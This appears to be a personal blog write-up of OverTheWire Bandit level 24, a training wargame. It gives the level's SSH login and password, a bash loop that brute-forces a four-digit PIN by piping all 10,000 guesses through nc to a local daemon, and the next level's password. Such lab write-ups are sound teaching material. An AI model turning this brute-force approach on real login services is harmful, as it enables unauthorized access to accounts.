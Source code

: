 +++
author = "Alex Domnit"
title = 'Bandit-Level 24'
date = 2024-08-18T20:29:04+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Bandit",
]

toc = false
+++

# Level goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.\
You do not need to create new connections each time.

### Login
*ssh bandit24@bandit.labs.overthewire.org -p 2220*\
*gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8*

### Doc
{{< highlight html >}}
nc (1)               - arbitrary TCP and UDP connections and listens
{{< /highlight >}}

### Articles
[Usefull read if you are new to bash scripting](https://www.geeksforgeeks.org/bash-scripting-introduction-to-bash-and-bash-scripting/)\
[File permissions](https://www.redhat.com/sysadmin/linux-file-permissions-explained)

### Solution
We will write a bash script again since we need to repeatedly send request and we wouldn`t want to do that by hand. Create a temp dir **mktemp -d** and **touch** a file and give it execute rights.
#### My script:
{{< highlight html >}}
#!/bin/bash


for a  in {0000..9999}
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $a";
done | nc localhost 30002 > keys.txt

cat keys.txt | grep bandit25
{{< /highlight >}}

#### Script breakdown

For a variable **a** in the range of 0000 and 9999, we are gonna **echo** the current password and **$a**(values of a) and pipe it to the daemon on port 30002 since you can\`t open **nc** before the loop without it waiting for a kill before letting the loop do the parsing.  The ouput of all of this will be ouput into keys.txt. The **grep** doesn\`t matter since the daemon breaks either way when inserting the correct value.

{{< highlight html >}}
bandit24@bandit:/tmp/tmp.dxMibZCdBZ$ ./script.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
{{< /highlight >}}